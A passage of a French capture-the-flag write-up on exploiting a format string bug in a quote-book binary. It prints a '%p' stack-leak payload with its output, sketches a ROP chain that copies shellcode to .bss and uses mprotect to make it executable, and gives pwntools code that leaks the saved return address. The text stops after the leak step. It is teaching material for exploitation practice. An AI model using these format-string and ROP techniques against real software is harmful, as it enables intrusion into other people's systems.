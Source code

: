 Si on regarde dans le code décompilé de ce à quoi elles correspondent voilà ce qu'on peut en tirer:

* **pick_quote** Cette fonction va ouvrir un fichier `citations.txt` (présent sur le serveur), lister le nombre de citations N puis choisir un nombre aléatoire modulo N - 1 (oui pas N, mais N - 1 ca aura son importance dans la Intended Way) et afficher cette citation.
* **write_quote** Cette fonction va lire une entrée utilisateur depuis `stdin`, la réafficher sans rien faire d'autre:

```txt
Que souhaitez-vous écrire ?
[Vous] : ABCD

Au moment où vous vous apprêtiez à écrire : ABCD
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
```

* **count_quotes** va simplement afficher du texte afficher du texte, impossible d'avoir réellement le bon nombre de citations.
* **exit** va faire quitter le programme.

La vulnérabilité se trouvant dans la fonction `write_quote`, l'entrée de l'utilisateur est directement réfléchie par `printf` sans l'usage d'une chaine de format, on est bien en face d'une format string! On peut d'ailleurs leak le contenu de la stack comme ceci:

```txt
[Vous] : %p%p%p%p

Au moment où vous vous apprêtiez à écrire : 0x7ffcd08140f0(nil)(nil)0x20995d9
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
```

Maintenant il faut trouver une manière d'exploiter cette vulnérabilité: On sait que le PIE n'est pas activé et que même si le binaire est linké statiquement avec la NX activé, la fonction `mprotect` est linké dans le binaire. On peut donc grâce à la primitive de `Write What Where` permise par la format string, écrire une `ROPchain` sur la stack qui fera ceci:

* Copier un shellcode au début de la .bss
* Mprotect la première page de la .bss en RWX
* Sauter sur le shellcode

Mais pour ca il va nous falloir un leak de la stack pour pouvoir bien positionner le début de notre ropchain sur la valeur sauvegardée de `RIP.`

##### Leak de la stack

Après avoir leak quelques adresses, on se rend compte que la première disposée sur la stack après l'appel à printf vaut est telle que: `<saved RIP> - 1448`. On obtient donc assez facilement notre leak

```python
# Leaking return address

rip_offset = 1448

def write_fmt(data):
    io.sendline(b"2")
    io.sendline(data)
...
pwn.log.info("Leaking stack address")

write_fmt(b"%p")
io.recvuntil(b"crire : ")
debug = io.recvline()
leak = int(debug.decode("utf-8"), 16)

saved_rip = leak + rip_offset
pwn.log.info(f"Saved RIP @ {hex(saved_rip)}")
```